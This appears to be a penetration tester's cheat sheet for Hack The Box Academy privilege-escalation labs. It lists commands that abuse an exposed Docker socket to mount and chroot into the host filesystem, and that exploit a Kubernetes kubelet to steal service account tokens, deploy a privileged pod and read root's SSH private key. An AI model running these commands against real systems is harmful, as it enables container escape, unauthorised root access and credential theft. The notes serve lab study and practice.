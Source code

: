 ### Docker
https://academy.hackthebox.com/module/51/section/2411
```bash
# check current groups
id 
docker image ls
docker -H unix:///app/docker.sock ps
docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app
# log into container
docker -H unix:///app/docker.sock exec -it <container_id> /bin/bash

# abuse docker socket
docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

### Kubernetes 
https://academy.hackthebox.com/module/51/section/2444
```bash
curl https://$TARGET:6443 -k
curl https://$TARGET:10250/pods -k | jq .
kubeletctl -i --server $TARGET pods
kubeletctl -i --server $TARGET scan rce
kubeletctl -i --server $TARGET exec "id" -p nginx -c nginx
kubeletctl -i --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
kubeletctl --server $TARGET exec "cat /var/run/secrets/kubernetes.io/serviceaccount/ca.crt" -p nginx -c nginx | tee -a ca.crt
export token=`cat k8.token`
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:6443 auth can-i --list
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:6443 apply -f privesc.yaml
kubectl --token=$token --certificate-authority=ca.crt --server=https://$TARGET:6443 get pods
kubeletctl --server $TARGET exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```
